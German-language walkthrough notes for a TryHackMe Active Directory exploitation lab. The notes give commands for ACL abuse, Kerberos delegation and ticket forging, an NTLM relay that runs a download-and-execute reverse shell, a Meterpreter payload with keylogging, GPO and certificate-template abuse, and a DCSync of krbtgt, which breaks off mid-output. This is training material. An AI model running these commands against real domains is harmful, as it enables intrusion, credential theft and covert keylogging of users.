# Exploiting Permission Delegation

Permission Delegation hilft in sehr großen Netzen, bzw. Active Directories gewisse Rechte an andere User weiterzugeben. Das ist sehr hilfreich, da somit User eingeschränkte Rechte nur für ihre eine Aufgabe erhalten. Im Grunde sollte man immer die Maxime verfolgen, so wenig Rechte wie möglich zu delegieren. Allerdings wird dies des öfteren nicht konsequent verfolgt. Das macht die Sache zu einem potentiellen Angriffsziel.

 
 
 ### Permission Delegation

Damit meint man in der Regel ACL-based Angriffe. ActiveDirectory erlaubt Admins die ACCESS CONTROL ENTRIES zu konfigurieren. 
**ACEs (Access Control Entries) sichern ein Objekt in einem AD ab. Sie legen die Berechtigungen fest, ob auf ein Zielobjekt der Zugriff erlaubt oder abgelehnt werden soll.**
Daraus ergeben sich sogenannte Discretionary Access Control Lists (DACLs).

Wenn diese ACE´s falsch konfiguriert sind, ist es möglich diese Schwachstellen auszunutzen. Wenn wir bspw. ein IT Support Team haben und diesen die ACE "ForceChangePassword" geben im Bezug auf die Domain User Group, wäre das sehr unsicher. Natprlich könnten sie die Passwörter der User zurücksetzen, die ihr Passwort vergessen haben, aber das würde auch bedeuten, dass sie die Passwörter auch von höher privilegierten Benutzer zurücksetzen könnten.

Welche ACE´s können bspw. so miskonfiguriert sein, dass man sie exploiten kann?

-  ForceChangePassword: Wir können neue Passwörter setzen, ohne die alten zu kennen
- AddMember: Wir können User (auch uns selber), Gruppen oder Computer zu einer Zielgruppe hinzufügen
- GenericAll: Wir haben volle Kontrolle über das Objekt, wie die Möglichkeit das Password zu ändern, einen SPN zu registrieren oder das Objekt einer Zielgruppe hinzuzufügen
- GenericWrite: Wir können jeden nicht geschützten Parameter dieses Objektes ändern. Zum Beispiel können wir den scriptPath Parameter ändern, sodass man nächsten Login der User ein schädliches Script ausführt
- WriteOwner: Wir können den Besitzer dieses Objekts ändern. Wir können uns z.b. selber aus Besitzer angeben und somit mehr Rechte über das Objekt erhalten
- WriteDACL: Wir können neue ACL´s der DACL dieses Objektes hinzufügen. Wir können bspw. eine ACE hinzufügen welche uns volle Kontrolle über das Objekt gibt
- AllExtendedRights: Wir können Aktion ausführen die die erweiterten Rechte von AD umfasst gegen das Objekt. Das schließt bspw. auch die Möglichkeit einer Passwortänderung mit ein.

**Um diese Exploits auf ACE´s anzuwenden, brauchen wir irgendeine Möglichkeit, um mit dem AD zu interagieren. Die wohl zwei besten Möglichkeiten bieten hier wohl [AD-RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) Powershell cmdlets oder [Powersploit](https://github.com/PowerShellMafia/PowerSploit). Es kommt auf die jeweilige Schwachstelle oder Erkennungsmöglichkeiten an, welche Option man wählt.**

**SSH LOGIN**
>ssh irene.leach@thmwrk1.za.tryhackme.loc

**Powershell Spawn**
>powershell -nop -exec bypass

**Powerview Module in die Powershell laden**
>Import-Module C:\tools\PowerView.ps1

**Sharphound laufen lassen um das gesamte AD zu mappen**
>sharphound.exe -c ALL -d za.tryhackme.loc --excludedcs

**Neo4j starten - Programm das Datenbanken grafisch darstellen kann**
>sudo neo4j console

**Bloodhound starten - In Verbindung mit Neo4j und Sharphound können wir uns mit Bloodhound jetzt das AD grafisch darstellen lassen**
>bloodhound --no-sandbox

**Wir sehen auf dem Bild, dass unser User zur Gruppe Domain User gehört. Domain User hat die ACE "GenericWrite" auf die Gruppe IT Support. Die IT Support Gruppe wiederum kann "ForceChangePassword" auf die Tier 2 Admins ausführen.**



**Wir fügen unseren User der Gruppe "IT Support" hinzu**
>Add-ADGroupMember -Identity "IT Support" -Members irene.leach

**Nach einigen Minuten (ACEs müssen sich erstmal aktualisieren) können wir den "ForceChangePassword" auf einen Tier 2 Admin ausführen**
>$password = ConvertTo-SecureString "password.123" -AsPlainText -Force

>Set-ADAccountPassword -Identity "t2_ross.bird" -Reset -NewPassword $password

## Wir haben Adminzugriff auf THMWRK1


# Exploiting Kerberos Delegation

Wenn man über AD Delegation redet, dann man meint man damit in der Regel die Kerberos Delegation, nicht die Permission Delegation.

### Kerberos Delegation

Der praktische Einsatz von Kerberos Delegation liegt darin, einer Anwendung Zugangsberechtigungen zu Ressourcen auf einem anderen Server zu geben. Ein Beispiel wäre ein Webserver der Zugang zu einer SQL Datenbank erhalten soll für eine Webanwendung. Ohne AD Delegation würden wir eventuell einen AD Service Account erstellen und diesem direkten Zugang zu der Datenbank geben. Wenn die Webanwendung Anfragen an die Datenbank stellt nutzt sie diesen Service Account zur Authentifizierung.

Wie auch immer, wir können diesem Service Account die Delegation zum SQL Server Service erlauben. Wenn sich ein User in unsere Webanwendung einloggt, fragt der Service Account nach einem Zugang zur Datenbank im Namen dieses Users. Das bedeutet der Benutzer erhält nur Zugriff zur Datenbank, für die er die nötigen Berechtigungen hat, ohne dem Service Account selber irgendwelche Rechte oder Privilegien zu geben. 

### Constrained vs Unconstrained

Es gibt zwei Arten von Kerberos Delegation. Die ursprüngliche implementierung, Unconstrained Delegation, ist weniger sicher. Die Essenz dieser Delegation erlaubt unbeschränkte Delegation. Im Hintergrund, wenn ein User mit der "TRUSTED_FOR_DELEGATION" Flag ausgestattet sich bei einem Host authentifiert der mit Unconstrained Delegation konfiguriert ist, wird für diesen User Account ein TGT im Arbeitsspeicher abgelegt. Angenommen ein Angreifer kann die Maschine kompromittieren, auf der Unconstrained Delegation aktiviert ist, also einem Server. In diesem Fall könnte er versuchen einen Privilegierten Account dazu zu bringen, sich bei sich selber also dem Host zu authentifizieren, was ihm erlauben würde das TGT abzufangen und den privilegierten Service nachzuahmen. Ein Beispiel wäre [hier](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976) zu finden.

Um dieses Problem zu umgehen, führte Microsoft 2003 das Constrained Delegation ein. Diese verbietet, zu welchem Service ein Account delegiert werden kann, limitiert also die Auswirkungen bei einem kompromitierten Account. Die Folgenden Beispiele zeigen Services, die für eine Delegation konfiguriert werden können:

- HTTP - Wird für Webanwendungen verwendet um pass-thru Authentifierungen mit AD Credentials zu erlauben

- CIFS - Gängiges Internet File System das fürs File Sharing verwendet wird und die Delegation von Usern zu Shares erlaubt

- LDAP - Wird benutzt um zum LDAP Service zu delegieren, wie bspw. das Resetten eines User Passwords

- HOST - Erlaubt Delegation für einen Account für alle Aktivitäten auf dem Host

- MSSQL - Erlaubt User Accounts die Delegation zu einem SQL Service für eine pass-thru Authentifizierung zu einer Datenbank

Das Exploiten einer Constrained Delegation ist normalerweise komplexer als das Exploiten einer Unconstrained Delegation, da der delegierte Account nicht für alles verwendet werden kann. Dennoch sind sehr starke Exploits möglich. Ein Beispiel wäre wenn wir einen AD Account kompromitieren, der Constrained Delegation konfiguriert ist. Indem wir das Passwort oder auch nur den NTLM Hash dieses Accounts kennen, können wir uns mit diesem TGT Tickets erstellen, und mit diesen dann TGS Request ausführen für jeden User Account um mit diesen dann auf der Service zuzugreifen. Vorstellbar wäre die Nachahmung eines Accounts mit Zugang zu einer sensiblen Datenbank.

### Resource-Based Contrained Delegation

Okay es gibt eigentlich noch einen weiteren Typ von Kerberos Delegations. Allerdings muss dieser als eigenständige Thema behandelt werden. Resource-Based Constrained Delegation (RBCD) erlaubt noch weitere Einschränkungen der Kerberos Delegation. RBCD verändert das Delegation Modell nochmal grundlegend. Anstatt zu spezifizieren, welches Objekt zu welchem Service delegiert werden kann, spezifiziert jetzt der Serive selber, welches Objekt zu ihm delegiert werden kann.
Das erlaubt dem Service Owner die Kontrolle darüber, wer Zugriff zu seinem Service hat. In unserem Beispiel mit dem Webserver bedeutet das, anstatt dass der Web Service zur Datenbank delegiert wird, die Datenbank selber den Web Service Account die Delegation zum Zugang gibt.

Gehen wir mal davon aus, wir haben die Erlaubnis RBCD für einen Service zu konfigurieren. Das bedeutet wir haben die Möglichkeit, das Attribut *msDS-AllowedToActOnBehalfOtherIdentity* für AD Objekt zu setzen. Wir können dieses Attribut mit Details eines AD Accounts befüllen, zu dem wir Zugang haben. Um jetzt Zugang zu dem Service zu erhalten, können wir ein TGT für den Account generieren lassen, den wir kontrollieren. Das erlaubt uns, mit dem Service zu interagieren. Ein Beispiel für eine RBCD Exploitation findet man [hier](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)


### Constrained Delegation Exploitation

Wir suchen erstmal nach verfügbaren Delegations. Dazu nutzen wir ein cmdlet von Powersploit mit Namen *Get-Netuser*

>Import-Module Powerview.ps1
>Get-NetUser -TrustedToAuth

Die Ausgabe zeigt uns, dass der User svcIIS die Berechtigung hat, die Protokolle WSMAN und HTTP an THMSERVER1 zu delegieren. Was bedeutet das? Wir können selber nicht direkt die Protokolle auf THMSERVER1 nutzen, aber svcIIS darf das. svcIIS darf also Authentifizierungstoken an diese beiden Dienste delegieren, bzw. Anmeldedaten an diese weitergeben. 
Wir werden also versuchen, diese Anmeldedaten einem Teil der Windows Registry zu dumpen, den LSASecrets.


Mit unserem Adminuser auf THMWRK1 können wir jetzt weitermachen. Wir laden PowerView in die Powershell.
>powershell -nop -exec bypass

>Import-Module C:\tools\PowerView.ps1

Mit folgendem Befehl können wir uns Informationen zu laufenden Delegations anzeigen lassen.
>Get-NetUser -TrustedToAuth

Output
---
>- displayname              : IIS Server
>- samaccountname           : svcIIS
>- msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1}

svcIIS kann also WSMAN und HTTP auf THMSERVER1 delegieren
---

Wir starten MIMIKATZ

>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

---
**(Um die secrets aus der Registrierungsstruktur zu dumpen, müssen wir uns als SYSTEM-Benutzer ausgeben)**
>token::elevate 

(Mimikatz interagiert mit der Registrierungsstruktur, um die Klartext-Anmeldeinformationen abzurufen)
>lsadump::secrets 


OUTPUT
> Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
---

Wir haben also jetzt das Passwort des Users svcIIS. Damit können wir eine Kerberos Delegation Attack starten, die wir ja schon bereits kennengelernt haben.
Mit Kekeo erstellen wir uns die Tiickets und mit Mimikatz injezieren wir sie in unseren Speicher um uns dann als svcIIS User auszugeben.

Wir werden Kekeo verwenden, um unsere Tickets zu generieren, und dann Mimikatz verwenden, um diese Tickets in den Speicher zu laden. Beginnen wir mit der Generierung der Tickets
>C:\Tools\kekeo\x64\kekeo.exe

Wir müssen zunächst ein TGT generieren, mit dem Tickets für die HTTP- und WSMAN-Dienste generiert werden können
>tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

OUTPUT 
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
----
Da wir nun über das TGT für das Konto verfügen, das die Delegierung durchführen kann, können wir TGS-Anfragen für das Konto fälschen, das wir imitieren möchten. Wir müssen dies sowohl für HTTP als auch für WSMAN durchführen, damit wir eine PSSession auf THMSERVER1 erstellen können
>tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

>tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc

OUTPUT
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
---

Da wir nun die beiden TGS-Tickets haben, können wir sie mit Mimikatz importieren
>privilege::debug

>kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

>kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

Nachdem die Tickets nun importiert sind, können wir endlich unsere PSSession auf THMSERVER1 erstellen

>New-PSSession -ComputerName thmserver1.za.tryhackme.loc

>Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc


**Wir sind Admin auf THMSERVER1**


# Exploiting Automated Relays


Maschinenkonten sind Benutzerkonten, die mit dem Windows-Hosts verknüpft sind und standardmäßig unknackbare Passwörter haben, während sie in Active Directory für Authentifizierung und Synchronisierung verschiedener Dienste verwendet werden.

Wir müssen zunächst Fälle identifizieren, in denen ein Maschinenkonto administrativen Zugriff auf eine andere Maschine hat. Bloodhound kann das mit einem custom query

>MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p

Die Maschine bzw. das Maschinenkonto THMSERVER2 verfügt über Administratorrechte für die Maschine THMSERVER1. Leider habe ich nicht hinbekommen, das ganze grafisch darzustellen mit dem Custom Query. Es sollte aber in etwas so aussehen:



Wie können wir diese Tatsache ausnutzen?


### The Printer Bug

Der Printer Bug ist eine „Funktion“ des MS-RPRN-Protokolls (PrintSystem Remote Protocol), das es einem Domainuser ermöglicht, einen Zielhost, auf dem der Druckspoolerdienst ausgeführt wird, aus der Ferne zu zwingen, sich bei einer beliebigen IP-Adresse zu authentifizieren. 

Um dies auszunutzen, benötigen wir neben den administrativen Privilegien des Maschinenkontos auch die folgenden vier Bedingungen:

    - Ein gültiges Set von AD-Kontozugangsdaten.
    - Netzwerkverbindung zum SMB-Dienst des Ziels.
    - Der Zielrechner muss den Druckwarteschlangendienst (spoolservice) ausführen.
    - Die Rechner dürfen nicht dazu gezwungen sein, SMB-Signierung durchzusetzen.

Bedingung 1 und 2 sind bereits erfüllt. Die einzigen beiden, die wir benötigen sind die Bedingungen 3 und 4

---

Wir müssen feststellen, ob der Druckspoolerdienst ausgeführt wird. Da wir keinen Zugriff auf THMSERVER2 haben, müssen wir die Abfrage aus Netzwerkperspektive durchführen. In diesem Fall können wir eine WMI-Abfrage aus unserer SSH-Sitzung auf THMWRK1 verwenden, um den aktuellen Status des Dienstes abzufragen

>GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc


Beide Befehle geben einen Error aus. In diesem Fall müssen wir einfach ausprobieren und darauf vertrauen, dass auf THMSERVER1 ein Druckerspoolerdienst läuft

---

Wir überprüfen, ob SMB Signing enabled oder required ist. Legacy Systeme unterstützen kein SMB Signing, daher ist es so, dass es nur enabled ist und nicht required.

>nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

Wir sehen, dass alle unsere Bedinungen erfüllt sind und wir die Attacke starten können.

---

Wir werden jetzt also versuchen, eine Authentifizierung zu erzwingen. Genauer gesagt werden wir den Spooler Service auf THMSERVER2 dazu zwingen, sich auf unserem Rechner zu verbinden und diese Verbindung bzw. Authentifizierung an THMSERVER1 weiterzuleiten. 

Wir starten ein Relay auf unserer Attacker Maschine

>impacket-ntlmrelayx -smb2support -t smb://10.200.125.201 -c 'whoami /all' -debug

Wenn wir den Hostnamen von THMSERVER1 anstelle der IP angeben, könnte der Host anfordern, dass wir die Kerberos-Authentifizierung anstelle von NTLM verwenden. Daher sollten wir stattdessen die IP angeben. Da das Relay lauscht, können wir THMSERVER2 nun dazu zwingen, sich bei uns zu authentifizieren. Wir führen in einem SSH-Terminal auf THMWRK1 Folgendes aus

>.\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.122.221

### OUTPUT
```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[+] Calculating HashedBootKey from SAM
[+] NewStyle hashes is: True
ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
[+] NewStyle hashes is: True
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] NewStyle hashes is: True
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92728d5173fc94a54e84f8b457af63a8:::
[+] NewStyle hashes is: True
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e96eab5f240174fe2754efc94f6a53ae:::
[+] NewStyle hashes is: True
trevor.local:1001:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
[*] Done dumping SAM hashes for host: 10.200.125.201
[*] Stopping service RemoteRegistry
```

### Mit den Hashes kam ich jetzt nicht wirklich weiter. Aber da ich Code Execution auf dem THMSERVER1 habe, kann ich eine Reverse Shell triggern.


 1. Download des Rshell Scripts
    >https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

 2. Folgendes am Ende des Scripts einfügen
    >Invoke-PowerShellTcp -Reverse -IPAddress <MEINE IP> -Port 4444

 3. Das Script zum Download bereitstellen
    >python3 -m http.server 80

 4. ntlmrelayx den Befehl mitgeben, dass sobald ich den Druckerspoolerdienst triggere, er folgenden Befehl ausführen soll
      > impacket-ntlmrelayx -smb2support -t smb://10.200.125.201 -c "powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.50.122.221:80/Invoke-PowerShellTcp.ps1')" -debug
      ---
      >Der Befehl macht folgendes: Powershell wird mit -c aufgerufen, also wird der nachfolgende Befehl als Argument ausgeführt. Der Befehl selbst verwendet "new-object net.webclient" um eine Instanz der .NET Klasse "WebClient" zu erstellen, die dafür genutzt wird, Webanforderungen durchzuführen. In diesem Fall wird der Inhalts einer Datei (invoke-powershelltcp.ps1) heruntergeladen und als Zeichenfolge zurückgegeben.
      ----


 5. Wir starten einen Listener auf Port 4444
      > nc -lvnp 4444

 6. Wir triggern auf THMWRK1 den Druckerspoolerdienst 
    > c:\Tools\SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.122.221





## WIR kriegen eine Shell mit NT Authority


# Exploiting AD Users 

Der schwächste Punkt in einem System ist immernoch der Benutzer. Daher konzentrieren wir uns jetzt darauf, wie User ihre Zugangsdaten speichern und wie Benutzer mit einem System interagieren bzw. wir Keyloggen. In diesem Fall speichert der User seine Zugangsdaten in das Programm "KeePass". Wir laden uns die Datenbank herunter. Nebenbei migrieren wir in einen Prozess des Benutzers und zeichnen seine Benutzereingaben auf.

---
Da wir in der vorherigen Aufgabe THMServer1 kompromettiert haben, schauen wir uns nun auf diesem System um.

Wir sehen eine *.kdbx Datenbank im Userverzeichnis
```
    Directory: C:\users\trevor.local\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/30/2022   4:36 PM           2190 PasswordDatabase.kdbx
```

Problem hier ist, wir müssen diese Datei irgendwie herunterladen. Dazu können wir Meterpreter nutzen. Wir gehen folgendermaßen vor, um überhaupt eine Meterpreter Shell zu bekommen:

   - Wir erstellen mit msfvenom einen Payload
      > msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
   - Wir stellen einen HTTP Server bereit
      > python3 -m http.server 8080
   - Wir laden die Datei auf den Zielhost
      > certutil -urlcache -split -f http://attackerip:8080/shell.ps1
   - Wir starten einen Meterpreter Listener mit Metasploit
      > msfconsole -q -x "use multi/handler; set lhost 10.50.122.221; set lport 5555; set payload windows/x64/meterpreter/reverse_tcp; exploit"
   - Wir führen das Powershell Script "shell.ps1" auf dem Zielhost aus und bekommen eine Meterpretershell
   - Danach wechseln wir in das jeweilige Verzeichnis und laden die Datei herunter
   - Wir suchen jetzt nach Prozessen, die von dem User "trevor.local" ausgeführt werden
      > ps | grep "explorer"
   - Wir migrieren in den Explorer Prozess
      > migrate 3167
   - Anschließend starten in Meterpreter den Keylogger
      > keyscan_start
   - Nach einigen Minuten sollten wir nachschauen ob irgendetwas aufgezeichnet wurde
      > keyscan_dump


      ```
      meterpreter\>keyscan_dump
      Dumping captured keystrokes...
      keep<CR>
      <Shift>Passwordbeispiel<CR>
      ```

Wir öffnen die Datenbank mit KeePassXc, geben das Passwort ein, dass wir dem User Trevor.local entnommen haben durch das Keylogging.
   
   Wir bekommen die Flag als auch neue Credentials aus der Datenbank

---

## Sidequest "SVCSERVMAN IT Support hinzufügen"



Mit unseren neuen Credentials für den User "***svcservman***" sehen wir jetzt zwei Angriffsmöglichkeiten. Auf den oberen gehen wir im nächsten Kapitel ein.

Ganz kurz zur Erinnerung: Den unteren Angriffsvektor kennen wir bereits. Wir fügen unseren User der IT Support Gruppe hinzu und pwned somit sofort THMSERVER2.

---

# Exploit GPO's

Wir schauen uns unseren neuen Account mal genauer in Bloodhound an. 



Wir haben schreibrechte für eine ganz bestimmtes GPO?! (Group Policy Object). Diese GPO's werden auf Objecte in einem AD angewendet. 



GPOs werden mit dem GPM (Group Policy Management) verwaltet. Somit muss man nicht die lokale GPO an jedem Object (Windows Rechner) vor Ort bearbeiten, man macht es zentral und lässt jedes Object die jeweiligen GPOs aus dem SYSVOL ziehen.
Wir werden einen AD User den wir kontrollieren (svcservman) den lokalen Administratoren sowie den local Remote Desktop Usern hinzufügen.
Somit können wir dann eine RDP Verbindung zu THMSERVER2 aufbauen und haben Adminrechte.

Um die GPO zu verändern, müssen wir auf das GPM mit einem User zugreifen, der die entsprechenden Rechte hat. Dazu könnten wir uns natürlich mit dem User auf THMSERVER1 über RDP einloggen, das könnte allerdings den User aus seinem System werden und somit einen Verdacht schöpfen. Daher werden wir uns mit einem anderen User auf THMWRK1 einloggen und von dort aus einen RUNAS befehl ausführen. Wir erinnern uns, mit RUNAS können wir Credentials in unseren Speicher laden und Befehle mit diesem User ausführen. 
Wir führen also MMC mit unseren Credentials von SVCSERVMAN aus. 


   - Wir loggen uns per RDP auf THMWRK1 ein

      > xfreerdp /v:thmwrk1.za.tryhackme.loc /u:irene.leach /p:Password1 /cert-ignore

   - Wir starten CMD als Admin

   - Wir führen RUNAS aus und geben das Passwort ein (Sup3Str0ngPass!@)

      > runas /netonly /user:za.tryhackme.loc\svcservman cmd.exe
   
   - Wir testen ob es geklappt hat

      > dir \\\za.tryhackme.loc\sysvol

   - Wir starten mmc

      > mmc

   - Wir adden ein Snap-in über file

   - Wir wählen Group Policy Management und drücken add-ok

   - Rechtsklick und EDIT auf "Management Server Pushes" unter Group Policy Managemnt/Forest: tryhackme.loc/Domains/za.tryhackme.loc/Servers/Management Servers

   - Wir machen einen Rechtsklick auf Computer Configuration/Policies/Windows Settings/Security Settings/Restricted Groups und wähen Add Groups aus

   - Wir klicken auf Browse und geben unter "Enter the object names to select" die Gruppe IT Support ein und drücken auf Check Names und dann ok.

   - In den Properties fügen wir auf gleiche Art noch die Gruppe Administrator und Remote Desktop Users hinzu

   - Nach einigen Minuten (oder einfach gpupdate /force ausführen) hat unser initiale User (wir erinnern uns, wir haben irene.leach zur IT Support Gruppe hinzugefügt) die Möglichkeit, sich über RDP auf THMSERVER2 einzuloggen und besitzt Adminrechte

   ### Wir haben THMSERVER2 gepwned


# Exploiting Certificates 

### AD Certificate Services

Der Active Directory Certificate Service ist die Implementierung eines PKI. Was ist ein PKI? Damit meint man ein System, das Zertifikate sowie Public Key Verschlüsselungen verwaltet. 
Da das AD CS nunmal ein Teil von AD ist und normalerweise auf Domain Controllern läuft, wird diesem ein gewisses Vertrauen zugesprochen. Was meine ich damit? In einem Active Directory dürfen diese bestimmten AD CS Objekte Zertifikate ausstellen. Damit sind sie sogenannte CA (Certificate Authority) und haben eine überprüfende und delegierende Funktion. 
Man kann mit AD CS Dateisystem verschlüsseln, Digitale Signaturen verwalten und für uns besonders interessant - auch Authentifizierungen durchführen.

In einem großen Unternehmen ist es aber eher schwierig, für jedes Objekt ein eigenes Zertifikat zu erstellen. Daher arbeiten Admins mit sogenannten Templates die dann von den jeweiligen Objekten angefragt werden. Diese Templates verfügen über Parameter, die angeben, welcher Benutzer das Zertifikat anfordern kann und was erforderlich ist. Bestimmte Kombos dieser Parameter sind sehr gefährlich und können von Angreifern ausgenutzt werden.

Ein paar Begriffe:

      - PKI – Public Key Infrastructure ist ein System, das Zertifikate und die Verschlüsselung öffentlicher Schlüssel verwaltet

      - AD CS – Active Directory Certificate Services ist die PKI-Implementierung von Microsoft, die normalerweise auf Domänencontrollern ausgeführt wird

      - CA – Certificate Authority ist eine PKI, die Zertifikate ausstellt

      - Zertifikatvorlage (Template) – eine Sammlung von Einstellungen und Richtlinien, die definiert, wie und wann ein Zertifikat von einer Zertifizierungsstelle ausgestellt werden darf

      - CSR – Certificate Signing Request ist eine Nachricht, die an eine Zertifizierungsstelle gesendet wird, um ein signiertes Zertifikat anzufordern

      - EKU – Extended/Enhanced Key Usage sind Objektkennungen, die definieren, wie ein generiertes Zertifikat verwendet werden darf


### Finding Vulnerable Certificate Templates

Wir können uns alle Templates auf dem System anzeigen lassen.
Dazu nutzen wir folgenden Befehl:

> certutil -Template -v > templates.txt

Certutil ist ein des Zertifzierungsdienstes in Windows.
Man kann certutil.exe verwenden, um Konfigurationsinformationen zur Zertifizierungsstelle anzuzeigen, Zertifikatdienste zu konfigurieren sowie Zertifizierungsstellenkomponenten zu sichern und wiederherzustellen. Das Programm überprüft darüber hinaus Zertifikate, Schlüsselpaare und Zertifikatketten.

-Template zeigt die Enrollment Policy Templates an.

-v gibt mehr Informationen aus

Wir scrollen die Ausgabe durch und suchen nach Templates, die folgende Dinge aktiviert haben:

   - Client Authentication – Das Zertifikat kann für die Client-Authentifizierung verwendet werden.
   - CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT – Die Zertifikatvorlage ermöglicht es uns, den Subject Alternative Name (SAN) anzugeben.
   - CTPRIVATEKEY_FLAG_EXPORTABLE_KEY – Das Zertifikat kann mit dem privaten Schlüssel exportiert werden.
   - Zertifikatsberechtigungen – Wir verfügen über die erforderlichen Berechtigungen zur Verwendung der Zertifikatsvorlage. In unserem Beispiel wären interessant: **Allow Full Control	TRYHACKME\Administrator** sowie **Allow Enroll	ZA\THMSERVER2$** und 
    **Allow Auto-Enroll	ZA\THMSERVER2$**

## Exploiting a Certificate Template

Okay wir werden jetzt unser Zertifikat anfragen. Dazu öffnen wir mit unserem, per RDP eingeloggten User, die MMC und fügen ein Snap-in hinzu.



Wir wählen Certificates aus und drücken auf add (es öffnet sich ein neues Fenster)






















Danach müssen wir dieses erstellte Zertifikat noch exportieren.




















Wir haben unser Zertifikat erfolgreich exportiert und können es jetzt für weitere Programme bereitstellen.


## User Impersonation through a Certificate

Auf dem System befindet sich bereits Rubeus. Damit können wir bei Kerberos ein TGT mit unserem Zertifikat anfragen. Im Anschluß können wir mit diesem TGT uns als Administrator auf dem Domain Controller ausgeben.

Wir befinden uns mit unserer Kommandozeile auf dem Desktop und starten Rubeus mit folgenden Parametern (schon angepasst):

Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:



Das Ticket wurde erstellt und auf dem Desktop gespeichert. 
Mit mimikatz können wir dieses jetzt nutzen, in unseren "speicher laden" und eine Session auf dem DC starten.



Ich überprüfe mit "klist" immer, ob das Ticket erfolgreich geladen wurde.



### Wir haben THMDC gepwned

# Exploiting Domain Trusts 

## Domain Trusts

Es gibt ja in einem Active Directory die User. Die User arbeiten an Computern. Die Computer und User werden einer Domain zugeordnet. Wenn man jetzt bspw. eine weitere Domain hat, die vielleicht in einem anderen Land liegt, kann man diese Domains verbinden. Dann spricht man von einem Forest. Man legt also eine Domain über die ganzen anderen Domains. Das ist dann die root oder Parent Domain. In unserem Beispiel ist die root Domain tryhackme.loc und za.tryhackme.loc (ZA) ist eine Child Domain. Das Vertrauensverhältnis von Child zu Parent ist Bidrektional. Somit transediert das Vertrauensverhältnis entsprechend auch zu anderen Domains in diesem Forest. Dieses Vertrauensverhältnis wollen wir jetzt ausnutzen indem wir eine Child Domain pwnen und somit im Anschluß die Parent Domain pwnen.

## KRBTGT and Golden Tickets

KRBTGT wird der Account genannt, der für die implementierung von Kerberos in einem AD genutzt wird. Im Prinzip wird dieser Account als Service Account für den KDC (Kerberos Distribution Center) benutzt, der alle Kerberos Tickets requests bearbeitet, indem er sie verschlüsselt und signiert. Alle Domain Controller enthalten die Password Hashes und können so die eingehenden TGT überprüfen die User für den Zugriff von Ressourcen übermitteln. 

Beim erstellen eines Goldenen Tickets umgehen wir den KRBTGT bzw. KDC komplett und erstellen unsere eigenen TGT's und werden im Prinzip zu einem Ticket Granting Server. 
Um TGTs zu fälschen, benötigen wir folgende Informationen:

   - Den FQDN der Domäne
   - Die Sicherheitskennung (SID) der Domäne
   - Den Benutzername des Kontos, das wir nachahmen möchten
   - Der KRBTGT-Passwort-Hash

Die ersten drei lassen sich normalerweise leicht herausfinden. Letzteres erfordert eine Domänenkompromittierung, da der KRBTGT-Passwort-Hash nur auf Domänencontrollern gespeichert wird.

Wir starten Mimikatz und führen einen lsadump::dcsync Befehl aus
   > mimikatz.exe

   > privilege::debug
   
   > lsadump::dsync /user:za\krbtgt


```
mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/25/2022 6:18:22 PM
